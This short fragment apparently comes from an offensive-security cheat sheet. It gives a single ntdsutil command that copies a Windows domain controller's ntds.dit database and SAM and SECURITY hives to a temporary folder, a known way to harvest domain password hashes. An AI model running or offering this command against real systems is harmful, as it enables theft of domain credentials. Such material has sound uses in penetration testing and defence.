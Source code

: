 ### Create a shadow copy of ntds.dit, sam and security hive
```
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```

